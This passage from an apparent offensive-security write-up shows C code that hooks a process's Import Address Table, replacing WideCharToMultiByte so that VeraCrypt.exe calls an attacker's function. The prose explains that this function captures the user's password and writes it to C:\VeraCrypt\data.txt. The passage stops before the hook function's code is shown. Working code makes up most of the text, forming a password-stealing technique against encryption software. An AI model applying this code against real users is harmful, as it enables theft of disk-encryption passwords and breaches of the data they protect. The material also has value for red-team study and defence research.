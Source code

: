 ```c

	// find imports for target dll 
	for (i = 0; i < size ; i++){
		char * importName = (char *)((PBYTE) baseAddress + importTbl[i].Name);
		if (_stricmp(importName, dll) == 0) {
				found = TRUE;
				break;
		}
	}
	if (!found)
		return FALSE;

	// Optimization: get original address of function to hook 
	// and use it as a reference when searching through IAT directly
	PROC origFuncAddr = (PROC) GetProcAddress(GetModuleHandle(dll), origFunc);

	// Search IAT
	PIMAGE_THUNK_DATA thunk = (PIMAGE_THUNK_DATA) ((PBYTE) baseAddress + importTbl[i].FirstThunk);
	while (thunk->u1.Function) {
		PROC * currentFuncAddr = (PROC *) &thunk->u1.Function;
		
		// found
		if (*currentFuncAddr == origFuncAddr) {

			// make sure memory is writable
			DWORD oldProtect = 0;
			VirtualProtect((LPVOID) currentFuncAddr, 4096, PAGE_READWRITE, &oldProtect);

			// set the hook
			*currentFuncAddr = (PROC)hookingFunc;

			// revert protection setting back
			VirtualProtect((LPVOID) currentFuncAddr, 4096, oldProtect, &oldProtect);

			//OutputDebugStringA("IAT function hooked!\n");
			return TRUE;
		}
	thunk++;
	}
	
	return FALSE;
}
``` 

After that, we are at the point where `VeraCrypt.exe` thinks that it executes the original `WideCharToMultiByte`, but instead it executes our own hooking function. The difference in our function `HookedWideCharToMultiByte` is that we store the data of the 5<sup>th</sup> parameter `lpMultiByteStr` in a buffer and then save that buffer into the file `C:\VeraCrypt\data.txt`. The contents of the file should be the captured password if everything worked fine! Then, the original function `WideCharToMultiByte` is executed through a pointer. The code of this function can be seen below:
